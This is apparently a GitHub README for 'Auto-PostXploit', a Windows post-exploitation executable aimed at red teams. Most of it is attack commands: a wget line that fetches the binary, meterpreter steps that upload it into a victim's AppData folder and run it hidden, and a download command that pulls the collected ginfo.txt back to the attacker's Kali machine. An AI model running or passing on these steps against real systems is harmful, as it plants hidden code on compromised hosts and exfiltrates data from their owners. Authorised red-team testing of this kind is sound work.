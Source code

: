 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  - wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
    meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
    meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
   #### If Auto-PostXploit.exe Not In Process
  
    meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
    root@kali:~# cat /root/Desktop/ginfo.txt
